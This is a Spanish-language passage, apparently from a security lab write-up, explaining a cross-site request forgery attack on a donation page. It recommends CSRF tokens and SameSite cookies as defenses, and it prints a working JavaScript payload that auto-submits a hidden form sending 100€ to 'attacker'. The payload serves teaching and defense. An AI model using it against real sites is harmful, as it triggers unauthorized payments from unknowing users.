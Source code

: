     Una estrategia común en estos casos es ocultar un formulario con valores predefinidos, que se envía automáticamente cuando un usuario visita la página. Esto podría llevar a una donación no autorizada de 100€ sin que el usuario lo sepa.
    
    Para una protección más sólida, es crucial implementar medidas adicionales, como el uso de tokens CSRF dinámicos ligados a la sesión del usuario. Estos tokens, incluidos en los formularios, deben validarse en el servidor antes de procesar cualquier solicitud de donación. También se puede considerar configurar la política SameSite en las cookies para reducir aún más el riesgo de ataques CSRF.
    
    ```html
    <script>
        // Creamos el formulario de manera dinámica
        var csrfForm = document.createElement('form');
        csrfForm.setAttribute('action', 'http://web.pagos/donate.php');
        csrfForm.setAttribute('method', 'POST');
    
        // Creamos e insertamos los campos ocultos
        var amountInput = document.createElement('input');
        amountInput.setAttribute('type', 'hidden');
        amountInput.setAttribute('name', 'amount');
        amountInput.setAttribute('value', '100');
        csrfForm.appendChild(amountInput);
    
        var receiverInput = document.createElement('input');
        receiverInput.setAttribute('type', 'hidden');
        receiverInput.setAttribute('name', 'receiver');
        receiverInput.setAttribute('value', 'attacker');
        csrfForm.appendChild(receiverInput);
    
        // Creamos y simulamos el envío del formulario automáticamente al cargar la página
        document.addEventListener('DOMContentLoaded', function() {
            document.body.appendChild(csrfForm);
            csrfForm.submit();
        });
    </script>
    
    ```
    
    **Explicación:**
    
    1. **Creación del formulario dinámicamente:**
        - Creamos un elemento `<form>` usando `document.createElement('form')`.
        - Establecemos el atributo `action` del formulario como la URL de destino.
        - Configuramos el método del formulario como POST mediante el atributo `method`.
    2. **Creación de campos ocultos:**
        - Creamos campos de entrada ocultos (`<input type="hidden">`) para los parámetros `amount` y `receiver`.
        - Establecemos los valores predefinidos para estos campos ocultos.
    3. **Simulación de envío del formulario:**
        - Añadimos el formulario creado dinámicamente al final del cuerpo del documento (`document.body.appendChild(csrfForm)`).
        - Utilizamos `csrfForm.submit()` para enviar automáticamente el formulario al cargar la página.
